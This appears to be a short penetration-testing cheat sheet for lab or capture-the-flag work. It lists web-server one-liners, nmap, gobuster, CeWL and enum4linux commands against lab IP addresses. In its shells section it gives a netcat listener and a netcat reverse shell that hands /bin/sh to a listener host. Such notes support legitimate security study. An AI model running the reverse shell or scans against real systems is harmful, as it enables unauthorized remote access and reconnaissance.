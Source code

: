 # CheatSheet

## Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## nmap
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## gobuster
```bash
gobuster dir -u http:10.10.10.10/ -w /path/to/wordlist
```
##  [CeWL](https://tools.kali.org/password-attacks/cewl)
creates wordlist from website
```bash
cewl -d 2 -m 5 -w genwords.txt https://10.10.10.10
```
## [enum4linux](https://tools.kali.org/information-gathering/enum4linux)
enumerates Windows and Samba systems 
Ports to look for: 445, 139
```bash
enum4linux -U -o 10.10.10.10
```
## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### Set Reverse Shell on Target
```bash
nc -e /bin/sh IP.OF.LISTENER 4000
```
## Usefuls Scripts
### HEX Converter
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”
```
